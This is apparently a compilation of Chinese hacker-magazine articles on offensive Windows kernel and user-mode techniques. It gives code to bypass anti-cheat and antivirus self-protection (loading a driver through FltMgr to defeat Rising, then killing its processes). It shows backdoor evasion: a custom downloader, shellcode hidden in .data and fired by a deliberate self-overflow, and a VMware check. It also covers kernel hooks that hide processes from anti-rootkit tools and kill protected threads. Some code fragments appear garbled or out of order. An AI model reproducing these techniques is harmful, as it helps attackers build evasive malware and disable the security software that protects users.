不知道有人猜到我为什么说这份代码是无敌的？因为在依附进程的过程中没有用到任何系统函数，所以无法阻挡。尽管在清零中用到了 ProbeForWrite，貌似即使 Hook 了这个函数也无法阻挡。具体效果如图 1 所示。IceLight-1.96.38 Hook 了 KiAttachProcess，但是我们照样能对其进行内存清零，而且从 WinDBG 的截图来看，没有恢复 KiAttachProcess 的钩子。

图 1

如果这个发现仅仅想到用于杀进程，未免是一种遗憾。不知大家发现没，内存清零是胡乱写进程内存，导致进程死亡。如果是有目的地写进程（特别是游戏进程）内存，就成了程序修改器。由于程序修改器（或说游戏作弊器）能破坏游戏的公平性，所以某些著名的游戏厂商会使用 NP 组件来保护自己游戏。NP 组件也是通过挂钩 KiAttachProcess 来保护进程内存不被非法读写的，而……我的这份代码在上述的截图中也能看出，它绕过了 KiAttachProcess，所以能读写被 NP 保护的游戏的内存。自己实现 ReadProcessMemory 和 WriteProcessMemory 无非也是简单地调用一下 ProbeForRead、ProbeForWrite、RtlCopyMemory 而已。这样的代码网上已经有很多了，大家只要把使用 KeStackAttachProcess 和 KeStackDetachProcess 部分的代码改成我们自己实现的 AttachProcess 和 DetachProcess 即可。（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

- **前置知识：** VC
- **关键词：** 编程、驱动、微过滤驱动
##### 利用 fltmgr 加载驱动绕过瑞星

文/图 Fireworm

在这个病毒与 Rootkit 横行的时代，驱动加载无疑是关注的重点，而各种 ARK 以及 Hips 对驱动也是严加防范，比如 ZwLoadDriver、ZwSetSystemInformation 等等，这些 API 大多都被 SSDT Hook 了，使用这些 API 会被拦截，从而使得驱动无法加载。在最新版的 2010 中，瑞星 Hook 了不少函数，如图 1 所示，使得以前的绕过办法失效了。不过，瑞星的漏洞依旧存在。

微软为 Windows 专门设计了一套微过滤驱动（Minifilter），这套驱动是专用于管理文件过滤驱动的加载和运行的。很多的虚拟磁盘驱动，还有还原软件常用的磁盘过滤驱动，都是使用微过滤驱动进行加载的，而且一般杀毒软件对这方面管得并没有那么严，所以可以从这里下手去加载。

不同于其他的驱动，Minifilter 由一个独立的 Manager 管理，而不仅仅是 SCM（服务管理器），其全称为 Microsoft File System Filter Manager，是由微软提供的为简化第三方过滤驱动而开发的文件系统过滤驱动。由这个 Filter Manager 开发的驱动叫做微过滤驱动。而微过滤驱动的加载也很简单，和一般的驱动并无太大差别，使用 CreateService 后再用 StartService 就可以搞定。加载驱动的主要代码比较简单，具体如下：
图 1

```cpp
int main(int argc, char *argv[])
{
    HANDLE hDevice;
    LOAD service_to_load;
    BOOL err;
    DWORD dwRet = 0;
    WCHAR drvPath[512];
    memset(drvPath, 0, 512);
    GetCurrentDirectoryW(MAX_PATH, drvPath);
    lstrcatW(drvPath, L"\\DNEPDK.sys");
    make_reg(L"load", drvPath);

    hDevice = CreateFile(L"\\\\.\\FltMgr", GENERIC_READ | GENERIC_WRITE,
                         FILE_SHARE_READ | FILE_SHARE_WRITE, NULL,
                         OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
    if (hDevice == INVALID_HANDLE_VALUE) {
        printf("CreateFile failed ...");
        goto _end;
    }

    wcscpy(service_to_load.ServiceName, L"load");
    service_to_load.Len = wcslen(service_to_load.ServiceName) * sizeof(WCHAR);
    err = DeviceIoControl(hDevice, MAGIC_IOCTL,
                          &service_to_load, sizeof(service_to_load),
                          NULL, 0, &dwRet, NULL);
    if (!err) {
        printf("sorry\n");
        goto _end;
    }

    printf("ok\n");

_end:
    CloseHandle(hDevice);
    return 0;
}
```

这段代码和 SCM 加载驱动的代码基本一致，只不过换成了 FltMgr 进行加载。驱动还需要在注册表中进行服务注册，不过这个注册和 SCM 加载的方式一模一样，就不多说了，代码如下：

```c
VOID WINAPI make_reg(LPWSTR szDriverName, LPWSTR szDriverPath)
{
    DWORD dwType = SERVICE_KERNEL_DRIVER;
    DWORD dwStart = SERVICE_DEMAND_START;
    HKEY hKey;
    WCHAR szMain[512] = {0};
    WCHAR szImgPath[512] = {0};
    wchar_t szRegPath[512] = {0};

    wsprintfW(szMain, L"%s%s", L"SYSTEM\\CurrentControlSet\\Services\\", szDriverName);
    wsprintfW(szImgPath, L"%s%s", L"\\??\\", szDriverPath);

    if (RegCreateKeyW(HKEY_LOCAL_MACHINE, szMain, &hKey) == ERROR_SUCCESS)
    {
        RegSetValueExW(hKey, L"DisplayName", 0, REG_SZ, (LPBYTE)szDriverName, (DWORD)lstrlenW(szDriverName) * 2);
        RegSetValueExW(hKey, L"ImagePath", 0, REG_EXPAND_SZ, (LPBYTE)szImgPath, (DWORD)lstrlenW(szImgPath) * 2);
        RegSetValueExW(hKey, L"Type", 0, REG_DWORD, (LPBYTE)&dwType, (DWORD)sizeof(dwType));
        RegSetValueExW(hKey, L"Start", 0, REG_DWORD, (LPBYTE)&dwStart, (DWORD)sizeof(dwStart));
    }
}


```

这种方法经过测试，可以绕过瑞星 2010 最新版。如图 2 所示，驱动已经被加载上去了。也许是瑞星的防范太不严谨了，加载驱动之后，完全可以用 PsTerminateProcess 这种办法干掉主程序的进程。不过需要注意的是，瑞星采用了双进程守护，需要同时杀死两个进程才能达到效果。
图 2

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

- 前置知识：VC、汇编
- 关键词：编程、Socket、免杀

##### 后门程序的“安全”之路
文/闪亮的心

通常编写后门程序都会考虑两个因素，一个是后门程序的免杀，另一个是后门程序的功能。随着杀毒软件新技术的进一步升级，“云查杀”所带来的自动上传“未知程序”的功能，使后门程序的存活周期大大降低。那么如何使后门程序延长反病毒工程师的分析时间，甚至能从工程师手中逃脱，就是现在后门技术一个新的发展方向。

既然要反分析，那么后门程序对抗的就已经不单单是杀毒软件本身，还包括杀毒软件公司的病毒分析师。传统层面上对后门程序的保护一般都是加壳处理，要分析这样的后门程序首先就要脱壳。但是，现今存在这样一个尴尬的局面，那就是强壳（比如 VMP）会使程序体积过大，弱壳又特别容易被脱。所以，后门程序只要到了反病毒工程师手里基本就死路一条了。

虽然不太可能做到后门程序不被杀毒软件公司的服务器捕捉，但我们却可以在编写代码的时候设置很多障碍或者伪装，用来消耗反病毒工程师的时间，这样后门程序的存活周期必然得到极大的提升。一般来说，要做到后门程序的“安全”，我认为必须从以下 3 个方面入手。第一是代码的复杂性，第二是反调试器的能力，第三是反虚拟机的能力。只有从这 3 个方面入手，后门程序才能达到我们的要求。

首先谈谈代码的复杂性。虽然现代软件工程技术都追求化繁为简，但在后门程序的制作上就要反其道而行之，化简为繁。简单说，就是把简单的代码复杂化，以增加分析时间。一般化简为繁有 2 种方法。第一种方法是自己封装某些敏感的 API，第二种是在敏感 API 执行过程中间添加其他代码。比如说，我们在写下载者的时候绝大多数人都喜欢用 URLDownloadToFile 来实现下载文件，反病毒工程师拿到这样的程序，只需要在 IDA 里一看，查看一下函数就可以定性为下载器了。再复杂一点，有些人使用 Wininet 里的函数来实现下载过程，但这也比较简单，只不过由直接下载分为几步执行，只比 URLDownloadToFile 稍微复杂了一点点而已。还有一种方法，就是通过 Winsock 自己实现一个 URLDownloadToFile。

一般下载器程序都是通过应用层协议 HTTP、FTP 实现的，而网络传输程序又都是 Socket 实现的，那么只需要了解了 HTTP 协议，我们就可以用 Winsock 来实现一个自己的 URLDownloadToFile。

```cpp
bool Download(char *url, HWND hParent, long msg)
{
    int s;
    char m_buffer[2048];
    s = tcp.connect(hostname, 80, TCP_TIMEOUT, 1);
    if (s < 0) return false;
    sprintf(m_buffer, "GET %s HTTP/1.0\r\nHost:%s\r\nAccept:*/*\r\nUser-Agent:AutoUpdate/1.0\r\n\r\n", url, hostname);
    tcp.send(s, m_buffer, strlen(m_buffer), TCP_TIMEOUT);
    ReadSize = tcp.recv(s, m_buffer, PEEK_SIZE, TCP_TIMEOUT);
    if (ReadSize == -1) return false;
    m_buffer[ReadSize] = 0;
    // ...
}
```

```cpp
if (i > 0)
{
    memcpy(m_heads_buffer, m_buffer, i + 4);
    headFinished = true;
    ReadSize = ReadSize - i - 4;
    OnDataRecived(m_buffer + i + 4, ReadSize, true);
}
```

这段代码就是构造 HTTP 包，然后下载数据、读数据并写入文件。这样的代码写到程序中，虽然已经看不出那么明显的痕迹了，但这个程序在被反汇编的时候，反病毒工程师能看到的函数就是 Socket 的相关函数，而 Socket 函数应用太广泛了，基本每个网络应用程序都要使用相关函数。这时候，他就需要一点点把上面代码反汇编并跟踪才能做出结论，这就增加了分析后门的时间。

当然，这样还远远不够。虽然我们调用的是 Socket 函数，但其本质还是一个网络应用程序，多少会引起工程师的警觉。程序在被系统加载的时候，只要不是动态加载的函数，全部都会存放在 PE 文件的输入表中。假设我们的 PE 文件的输入表里没有 Socket 函数，那么程序就安全了许多。这里我要放弃动态加载，由于 Socket 函数的特殊性，你不能动态加载其中的一个或者几个函数，只要使用动态加载，那么整个程序中的所有 Socket 函数就都需要动态加载。

首先，PE 文件的输入表函数和 Windows 系统的一些 DLL 中的输出表函数是对应的。比如 Socket 函数，对应的 DLL 就是 ws2_32.dll。如果修改 ws2_32.dll 中输出表的函数名，比如将 Socket 改成 Ketsock，这时后门程序建立 Socket 的代码就完全可以做如下调整。比如正常建立流套接字应该这样写：Socket(AF_INET, SOCK_STREAM, IPPROTO_TCP)，在修改过 ws2_32.dll 的输出表后，我们就可以写成 Ketsock(AF_INET, SOCK_STREAM, IPPROTO_TCP)。这样的程序在被反汇编后，分析师看起来就比较费劲了。其中为了保险起见，我们的参数还可以进行加密。

然而，既要保证我们的程序能运行，也要保证其他网络应用程序能运行，也还是要花一番功夫的。在以后的文章里，我会把这个问题当成一个专题来讲解。而化简为繁的第二种方法就是增加 API 的执行步骤，比如说我们删除一个文件经常都直接使用 DeleteFile，但如果要删除 system32 目录下的文件就是很敏感的操作了。如果我们通过 MoveFile 先将文件剪切复制到另外一个文件夹里面，中间穿插若干无用代码，再执行删除操作，或者直接移动到临时文件夹中，这样效果会好很多。注意，这里并不是说能够过启发式或者主动防御，只是说在程序被分析的时候，增加分析的时间。

我们来看看实际情况，假设我们删除 system32 下的一个名为 test.dll 的 DLL 文件。一般代码会这样书写：

```cpp
char szFileName[255];
GetSystemDirectory(szFileName, sizeof(szFileName));
strcat(szFileName, "\\test.dll");
DeleteFile(szFileName);
```

对于 DeleteFile 整个过程的汇编码就是：

```asm
0040D4BD    mov esi,esp
0040D4BF    lea edx,[ebp-100h]
0040D4C5    push edx
0040D4C6    call dword ptr [KERNEL32_NULL_THUNK_DATA (0042a21c)]
0040D4CC    cmp esi,esp
0040D4CE    call _chkesp (00401080)
```

这样的代码，工程师一眼就能看出你都做了些什么。接着我们做如下处理，由直接删除改成剪切，然后增加一些无用代码。

```c
char szFileName[255], szNewFile[255] = "C:\\test.dll";
HINSTANCE hInstance;
GetSystemDirectory(szFileName, sizeof(szFileName));
strcat(szFileName, "\\test.dll");
hInstance = LoadLibrary("kernel32.dll");
MoveFile(szFileName, szNewFile);
FreeLibrary(hInstance);
```

这里我动态载入了一个系统 DLL 文件，然后剪切文件，最后释放句柄。我们再来看下汇编代码：

```asm
00401092    mov esi,esp
00401094    push offset string "kernel32.dll" (0042201c)
00401099    call dword ptr [__imp__LoadLibraryA@4 (0042a15c)]
0040109F    cmp esi,esp
004010A1    call _chkesp (00401240)
004010A6    mov dword ptr [ebp-204h],eax
004010AC    mov esi,esp
004010AE    lea edx,[ebp-200h]
004010B4    push edx
004010B5    lea eax,[ebp-100h]
004010BB    push eax
004010BC    call dword ptr [__imp__MoveFileA@8 (0042a158)]
004010C2    cmp esi,esp
004010C4    call _chkesp (00401240)
004010C9    mov esi,esp
004010CB    mov ecx,dword ptr [ebp-204h]
004010D1    push ecx
004010D2    call dword ptr [__imp__FreeLibrary@4 (0042a154)]
004010D8    cmp esi,esp
004010DA    call _chkesp (00401240)
```

这里可以看到，虽然我们只加入了 2 行代码并更换了删除文件的方式，但汇编码已经截然不同了。当然这里只是演示，实际上我们可以做更多的手脚。要知道，代码越长消耗的时间必然越多。如果病毒分析师采用软件分析，随意提取一个特征码，那么你的后门程序免杀起来将是异常简单的。

接着谈一下程序的反调试能力。通常情况下，反调试技术被用于软件保护上面。一般情况下，都采用多重代码加密来阻止调试。但随着各种调试插件的应用，这一方法逐渐变得不那么好使。这里我来说一种比较麻烦，但很少使用的方法。随着现在开发平台的升级，我们已经很难了解编译器是怎么把程序代码转换成 PE 文件，以及代码之间是如何链接的。但如果你想写出十分出色的后门程序的话，这就是你的必修课。

你必须很清楚地知道，你写的代码由编译器生成的 PE 文件后是什么样子的。比如一个标准的 PE 文件，包含若干个数据节（section），.text 中存放的是二进制的机器代码，也是我们反汇编和调试的对象。.data 是初始化的数据块，如宏定义、全局变量、静态变量。.idata 是可执行文件所使用的动态链接库等外来函数与文件的信息。.rsrc 存放程序的资源，如图标、菜单等。当然，一个 PE 文件可能还有其他节，这里我们主要关心 .data 节。

虽说可执行代码只能存在于 .text 中，但如果程序出现异常的话，.data 里的数据未必不能执行。比如说缓冲区堆栈溢出，我们可以人为地构造程序溢出，然后将敏感代码放到 Shellcode 中，Shellcode 作为全局变量，这样编译器在编译的过程中就会把 Shellcode 生成到 .data 节中去，程序在调试过程中基本是看不出什么问题的。

因为在调试过程中，只有出现溢出，跟踪寄存器的异常才能判断程序的变化。这样对于每天工作量很大的分析师来说，就有很大的几率从他眼下溜走。一般调试过程都是看函数执行过程，有敏感函数就设置断点跟踪，没有基本就放过。我们就写这样一个演示代码：

```c
char szcopy[] = "\x41\x41\x41\x41";
/* ... 大量 shellcode 与注释 ... */
void myload()
{
    char szfile[8];
    strcpy(szfile, szcopy);
    for (int i = 0; i < 8 && szfile[i]; i++)
    {
        printf("%d", szfile[i]);
    }
}

int main(int argc, char* argv[])
{
    HANDLE hThreadSnap = NULL;
    PROCESSENTRY32 pe32;
    BOOL bRet;
    hThreadSnap = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);
}
```

```c
if (hThreadSnap == INVALID_HANDLE_VALUE)
    return (FALSE);
pe32.dwSize = sizeof(THREADENTRY32);
bRet = Process32First(hThreadSnap, &pe32);
while (bRet)
{
    bRet = Process32Next(hThreadSnap, &pe32);
}
myload();
return 0;
}
```

其中主程序非常简单，就是创建一个系统进程快照，遍历系统当前进程，复制字符串。myload 是我构造的一个自溢出函数，Shellcode 部分用来开启一个 DOS 对话框，由于篇幅原因，大家可以在实际运用中更换 Shellcode。这里我要说的是，我们来看一下这个程序的汇编代码。

```asm
00401115  push 0
00401117  push f4
00401119  call CreateToolhelp32Snapshot
0040111E  mov dword ptr [ebp-4], eax
00401121  cmp dword ptr [ebp-4], 0FFh
00401125  jne main+3Bh
00401127  xor eax,eax
00401129  jmp main+83h
0040112B  mov dword ptr [ebp-12Ch],1Ch
...
00401140  call Process32First
...
0040115F  call Process32Next
...
0040116C  call @ILT+0(myload)
```

这样的代码，在调试器面前已经初步隐藏了我们的真实意图，最起码一眼扫过去，只是执行了些正常的操作。Shellcode 被编译器写进了 `.data` 节中，只有调试器跟踪下去才能看到。而对于 `.data` 中的数据，我们又可以采用多种方式进行加密，从而只在程序真正执行并且触发溢出的时候，才会执行我们想要执行的代码。

故问，有多少反病毒工程师能做到所有程序一个断点一个断点地跟踪呢？这里我要说一下注意事项，使用自溢出的时候，一定要多次测试，确保自溢出不会覆盖程序的正常代码部分而导致程序异常。

接着我们讨论最后一个问题，反虚拟机。一般程序在被调试的时候都是在虚拟机的环境下进行调试的。这里我说的反虚拟机并不是说让我们的程序在虚拟机的环境下不能运行，因为在反病毒工程师的眼里，一个程序如果不能在虚拟机下运行的话，那么这个程序本身就有很大的问题。这里是说如果程序发现在虚拟机的环境下运行，那么立即删掉自己的后门代码，使程序变成一个无害程序而被顺利执行，这就是我们的目的。对于上面的程序，我做了如下调整：

```c
while (bRet)
{
    if (pe32.szExeFile == "VMwareTray.exe")
        memset(szcopy, 0, sizeof(szcopy));
    bRet = Process32Next(hThreadSnap, &pe32);
}


```

对于常见的虚拟机 VMware 来说，我们检测虚拟机的主要进程 VMwareTray.exe，如果存在，就将我们的 Shellcode 清零。这在反汇编的代码里看起来，不过初始化了一个字符串变量。如果要达到更好的迷惑效果，还可以再给 szcopy 赋个正常值，那就更像真的了。关于检测虚拟机的方法，这里只做演示说明，只是让大家明白，代码只要写活了，我们的后门可以生存很长时间。

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：VB  
关键词：编程、Hook、驱动

##### 钩子的另类用法

文/图 胡文亮
钩子是目前各种 RK/AV/ARK 使用得最多的技术了，但是钩子的用途貌似很少，只是用来保护进程/文件、注册表项，以及实现主动防御。我个人比较喜欢剑走偏锋，研究老东西的新用途。经过我的思考以及和我表弟、syf 等人的探讨，终于想到了 7 个另类用法，特地写出本文，与大家分享。

###### 挂钩 NtOpenProcess
###### 实现与驱动通信

一般来说，标准的 Ring3 程序与 Ring0 驱动通信都是这样的：在驱动中创建设备，并为设备创建符号链接；Ring3 用 CreateFile 打开符号链接得到设备句柄，然后 DeviceIoControl 发送 ControlCode。DeviceIoControl 的内容被封装成 IRP 到达 Device，Device 其所属 Driver 的对应派遣例程对 IRP 进行处理，处理完以后 IoCompleteRequest 完成该 IRP，最后返回到 Ring3。

不知道大家有没有注意到这么一个问题，使用了大量底层函数的冰刃竟然杀不死 360！莫非在驱动中调用 PspTerminateThreadByPointer、MmUnmapViewOfSection 等函数都要经过 KiFastCallEntry？明显不是的。2008 年的黑防文章《Ring0 中废除 360 自我保护》中已经说得很清楚，360 的设计人员对冰刃的驱动通信做了处理，一旦发现传递的是受保护的 PID/TID/EPROCESS/ETHREAD 则进行干扰。这样一来，冰刃自然是杀不死 360 了。所以，我们必须想到别的办法和驱动进行通信。

用另类方式和驱动通信的办法很多，但我觉得 Hook 比较方便。Hook 的函数要注意，至少要有返回值。Hook 的方式也要注意，不推荐使用 SSDT Hook，而要使用 Inline Hook。原因是使用 SSDT Hook 的软件很多，而且太明显（打开冰刃一看一片红）。基于上述两个原因，我选择了对 NtOpenProcess 进行 Inline Hook。这样，我们就可以在 Ring3 下用普通的 OpenProcess 来和我们的驱动通信了。在此设定我们的 IOCTL 是 OpenProcess 的第三个参数 ProcessId，而返回值是“句柄”。

要注意的是，ProcessId 要特别一点，不能是“看起来”很正常的 PID，否则我们就无法确定传入这个参数的意图了。我的建议是把当作 IOCTL 的 PID 范围定在 100000 以上或者 0~100 比较合适。因为想必大家都没见过 PID > 100000 或者 PID < 100 的进程（Idle 和 System 除外）吧！以下是我们处理函数的代码：

```c
// 处理函数：输入1返回2600，输入2返回3790，输入3返回6000
NTSTATUS DetourMyNtOpenProcess(OUT PHANDLE ProcessHandle,
    IN ACCESS_MASK AccessMask,
    IN POBJECT_ATTRIBUTES ObjectAttributes,
    IN PCLIENT_ID ClientId)
{
    if (ClientId->UniqueProcess == (HANDLE)1) {
        *ProcessHandle = (HANDLE)2600;
        return STATUS_SUCCESS;
    }
    ...
}
```

```c
*ProcessHandle = (HANDLE)2600;
return STATUS_SUCCESS;
}
else if (ClientId->UniqueProcess == (HANDLE)2)
{
    *ProcessHandle = (HANDLE)3790;
    return STATUS_SUCCESS;
}
else if (ClientId->UniqueProcess == (HANDLE)3)
{
    *ProcessHandle = (HANDLE)6000;
    return STATUS_SUCCESS;
}
else
{
    return OriginalNtOpenProcess(ProcessHandle, AccessMask, ObjectAttributes, ClientId);
}
```

在 VB 里这么写就能有我们想要的结果：

```vb
Call OpenProcess(1,0,1)  ' 将返回2600
Call OpenProcess(1,0,2)  ' 将返回3790
Call OpenProcess(1,0,3)  ' 将返回6000
```

其实这个函数还是挺敏感的，若打开了冰刃，我们就无法和驱动进行通信了。如果真的要把这个技巧应用到产品级的软件里，还是要找一些很少被挂钩的函数，比如 NtQueryVirtualMemory。

###### 挂钩 PsGetVersion 和 RtlGetVersion
###### 禁止 ARK 启动

一般来说，ARK 的驱动要在 DriverEntry 中判断操作系统版本，如果不是已知的版本就退出。获得操作系统版本的两个函数是 PsGetVersion 和 RtlGetVersion，挂钩它们，就能让某些 ARK 无法启动。我们来看看这两个函数的原型：

```c
BOOLEAN PsGetVersion(PULONG MajorVersion OPTIONAL,
    PULONG MinorVersion OPTIONAL,
    PULONG BuildNumber OPTIONAL,
    PUNICODE_STRING CSDVersion OPTIONAL);

NTSTATUS RtlGetVersion(IN OUT PRTL_OSVERSIONINFOW lpVersionInformation);
```

它们都是带返回值的，进了我们的伪函数后分别直接 `return FALSE;` 和 `return STATUS_ACCESS_DENIED` 就行。效果还可以，SnipeSword、Icelight、PsNull、天琊都无法启动或出错，但是冰刃、Rku 以及 XueTr 不受任何影响。

###### 挂钩 IoCreateFile 禁止打开内核文件
###### 保护 Inline Hook 和禁止 ARK 启动

现在内核钩子满天飞，但要恢复也很简单。为了对抗恢复，江民采用 DPC 定时器对钩子实施监视，一旦发现钩子被摘除，就重新钩上。而且据说还开启了一个系统线程对定时器进行监视，一旦发现定时器被摘除，又重新设置。个人觉得这么做没有任何效果，因为等江民的驱动再把钩子挂上时，估计江民的进程早就被灭了，所以要彻底禁止打开内核文件。我选择 IoCreateFile，原因是它够底层，而且 NtOpenFile 用到了此函数。

```kd
kd> uf NtOpenFile
...
mov edi,edi
push ebp
mov ebp,esp
xor eax,eax
...
call nt!IoCreateFile
ret 18h
```

实现的代码如下：

```c
// 伪截断函数
NTSTATUS DetourMyIoCreateFile(
  PHANDLE FileHandle,
  ACCESS_MASK DesiredAccess,
  POBJECT_ATTRIBUTES ObjectAttributes,
  PIO_STATUS_BLOCK IoStatusBlock,
  PLARGE_INTEGER AllocationSize,
  ULONG FileAttributes,
  ULONG ShareAccess,
  ULONG CreateDisposition,
  ULONG CreateOptions,
  PVOID EaBuffer,
  ULONG EaLength,
  CREATE_FILE_TYPE CreateFileType,
  PVOID InternalParameters,
  ULONG Options
)
{
  UNICODE_STRING KnName1, KnName2, KnName3;
  ...
  if (RtlCompareUnicodeString(ObjectAttributes->ObjectName, &KnName1, TRUE) == 0 ||
      RtlCompareUnicodeString(ObjectAttributes->ObjectName, &KnName2, TRUE) == 0 ||
      RtlCompareUnicodeString(ObjectAttributes->ObjectName, &KnName3, TRUE) == 0)
      return STATUS_ACCESS_DENIED;
  else
      return OriginalIoCreateFile(...);
}
```

```c
if (RtlCompareUnicodeString(ObjectAttributes->ObjectName, &KnName3, TRUE) == 0)
    return STATUS_ACCESS_DENIED;
else
    return OriginalIoCreateFile(FileHandle, DesiredAccess, ObjectAttributes, IoStatusBlock, AllocationSize, FileAttributes, ShareAccess, CreateDisposition, CreateOptions, EaBuffer, EaLength, CreateFileType, InternalParameters, Options);
```

这个方法对部分 ARK 有效，比如 SnipeSword、Icelight、PsNull，但对老牌的冰刃、RKU、XueTr 无效（姜还是老的辣）。后来参考了某个网友的代码，发现读取文件是用 IRP 的，绕过了 IoCreateFile。看来，要想彻底禁止访问内核文件，只能写文件过滤驱动了。当然，你也可以通过 Hook 这个函数达到禁止创建 `.sys` 文件的目的，这样的话保证没有任何 ARK 能跑起来。再不行，直接禁止 NtLoadDriver。不过这就不是新技巧，而是陈年冷饭了。

###### 猥琐 KeUserModeCallback
###### 窥测隐藏进程

KeUserModeCallback 是内核中调用极为频繁的函数（在我那台没有杀毒软件的机器上，10 秒钟就调用了 4 万多次），很少程序不会直接或间接用到。我本来还想挂钩 IofCompleteRequest，但是这个函数太敏感（冰刃运行后会自动恢复此函数），所以放弃了。之前还想 Hook KiFastCallEntry 和 KiSwapContext，但也因为稳定性太差而放弃了。KeUserModeCallback 开头的几条指令不是常见的 `8B、FF、55、8B、EC`，所以我们不方便采用 jmp 的方式。

经观察，发现在 KeUserModeCallback 中调用了 ProbeForWrite，所以我们就用 call 的方式来 Hook 这个函数。这个处理过程更加简单了，在我们自己的伪函数中用 DbgPrint 来记录一下调用者的信息就可以了。

```c
VOID fake_ProbeForWrite(IN CONST PVOID Address, IN SIZE_T Length, IN ULONG Alignment)
{
  DbgPrint("HOOK KeUserModeCallback~ PID=%d! EPROCESS=%x!", (ULONG)PsGetCurrentProcessId(), (ULONG)PsGetCurrentProcess());
  pProbeForWrite(Address, Length, Alignment);
}
```

后来我转念一想，直接 Hook ProbeForRead 和 ProbeForWrite 也许更好。因为这两个函数更加不敏感，而且使用频率更高。这里我只是提出一个点子，具体实现还是由读者去做吧。

###### 猥琐 MmIsAddressValid 实现
###### 隐藏进程信息

一般来说，每个成熟的 ARK 在操作一个地址的时候，都要先用 MmIsAddressValid 来验证地址的有效性，如果地址无效，就放弃操作（否则会造成蓝屏）。于是，一个邪恶的想法就产生了：挂钩这个函数，当有别的程序试图验证 EPROCESS/ETHREAD 以及一定量偏移（0x300 以内）的地址是否有效时，就直接返回无效。

```c
// 挂钩函数
BOOLEAN DetourMyMmIsAddressValid(IN PVOID VirtualAddress)
{
    ULONG i;
    for (i = (ULONG)myep; i < (ULONG)myep + 0x300; i++) // myep是我们的进程，myet是我们的线程
    {
        if ((ULONG)VirtualAddress == i)
        {
            return FALSE;
        }
    }

    for (i = (ULONG)myet; i < (ULONG)myet + 0x300; i++)
    {
        if ((ULONG)VirtualAddress == i)
        {
            return FALSE;
        }
    }

    return OriginalMmIsAddressValid(VirtualAddress);
}


```

结果这段简单的代码得到了立竿见影的效果，老牌的冰刃、狙剑完全看不到我们进程的任何信息，Iceboy 的 PsNull 也看不到。Rku 能看到我们进程的 PID 和 EPROCESS，但是得不到进程路径。不过无法逃过 ARK 新秀 XueTr 的眼睛以及最普通的任务管理器（绕过任务管理器的代码我就不加了，断开活动链即可）。效果如图 1～图 5 所示。

###### 挂钩 KeTerminateThread 监视线程退出

认真读过 pif《进程终止内幕》的读者应该发现，pif 提到了一个叫 KeTerminateThread 的函数，它由 PspExitThread 调用，而且被 ntoskrnl.exe 导出，挂钩它很方便。基于上述原因，我选择用它来监视线程退出。
图 3
图 1
图 4
图 2
图 5

```c
// 处理函数
VOID DetourMyKeTerminateThread(IN KPRIORITY Increment)
{
    HANDLE pid, tid;
    tid = PsGetCurrentThreadId();
    pid = PsGetCurrentProcessId();
    DbgPrint("Thread Terminated [PID=%d,TID=%d]", (ULONG)pid, (ULONG)tid);
    OriginalKeTerminateThread(Increment);
}
```

```c
{
    if (IoThreadToProcess(Apc->Thread) != KV_PROCESS)
    {
        // 假定 KV_PROCESS 是江民要保护的进程
        return Real_KeInsertQueueApc(Apc, SystemArgument1,
            SystemArgument2, Increment);
    }
    else
        return FALSE;
}
else
    return FALSE;

// 我们的处理函数
PEPROCESS DetourMyIoThreadToProcess(PETHREAD Thread)
{
    // ...示例逻辑...
    txproc = OriginalIoThreadToProcess(Thread);
    if ((txproc == kvproc) && (PsGetCurrentProcess() != myproc))
        return myproc; // 返回伪 EPROCESS
    else
        return txproc; // 返回真正的 EPROCESS
}


```

如果要监视进程退出，可以选择挂钩 `PspExitProcess/ObKillProcess`，但是它们没有导出，定位比较麻烦。文中讨论了通过挂钩线程退出相关路径来做进程防杀的可行性，以及回调数量限制、WMI 延迟等问题。
图 6

##### 挂钩 IoThreadToProcess

apc 即杀线程

众所周知，江民挂钩了 `Ke(i)InsertQueueApc` 来进行自我保护。关键在于如何判断线程是否属于自己：可通过 `IoThreadToProcess` 判断 `Apc->Thread` 对应的 `EPROCESS`。若发现返回的是目标进程且调用者不是自身，则返回自身进程的 `EPROCESS` 以欺骗检测逻辑。

```c
// 江民的 Fake_KeInsertQueueApc 处理函数
BOOLEAN Fake_KeInsertQueueApc(PKAPC Apc, PVOID SystemArgument1,
    PVOID SystemArgument2, KPRIORITY Increment)
{
    if (MmIsAddressValid(Apc->Thread)) // 验证地址有效性
    ...
}
```

据说后来江民修正了该逻辑后，不再依赖 `IoThreadToProcess`，而是直接读取 `ETHREAD` 中 `ThreadProcess` 偏移；文中也提到 DKOM、`ObReferenceObjectByHandle` 句柄欺骗等类似技巧，以及对 AV/ARK 的影响。

当别的进程进入伪函数时，相当于切换到目标进程环境（类似 `Ke(Stack)AttachProcess` 的效果），可操作该进程内存。作者借此强调内核开发需要实践与创新，不应停留在简单 SSDT Hook 层面。

漏洞并尝试进行修补，以对应《黑客防线》的理念：在攻与防的对立统一中寻找突破。（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：VC  
关键词：编程、结束线程、Ring3

##### WS 方法结束线程

文/syf

虽然结束线程在黑防上已被多次提过，但本文将介绍一种新的 WS 方法结束线程，可以突破目前所有的 ARK/AV 的自我保护。一般来说，PspTerminateThreadByPointer 会这样来结束线程（给线程插入 APC 来让线程自行了断）：

```c
// 摘自 WIN2K SRC
KeInitializeApc(
    ExitApc,
    &Thread->Tcb,
    OriginalApcEnvironment,
    PsExitSpecialApc,
    NULL,
    PspExitNormalApc,
    KernelMode,
    ULongToPtr(ExitStatus)
);
if (!KeInsertQueueApc(ExitApc, ExitApc, NULL, 2)) {
    ExFreePool(ExitApc);
    return STATUS_UNSUCCESSFUL;
}
```

其实，PspTerminateThreadByPointer 中还有如下的判断：

```c
// 摘自 WIN2K SRC
if (Thread == PsGetCurrentThread()) { // 如果是自杀
    ObDereferenceObject(Thread);
    PspExitThread(ExitStatus);
}
```

这就表示，PspTerminateThreadByPointer 在结束线程时会判断要结束的线程是否是当前线程（CurrentThread），如果是的话直接 PspExitThread，我们可以模拟一下这个做法。

我们知道，ObOpenObjectByPointer 的调用是很频繁的，那么我们可以挂钩此函数，然后在伪函数内判断调用的线程是否是我们要结束的，如果是则直接使用 PspExitThread，伪代码如下：

```c
NTSTATUS MyObOpenObjectByPointer(IN PVOID Object, ...)
{
    if ((ULONG)PsGetCurrentThread() == MyThread) {
        // MyThread 是要结束的线程
        PspExitThread(STATUS_SUCCESS);
        return 0;
    }
    return RealObOpenObjectByPointer(Object, ...);
}
```

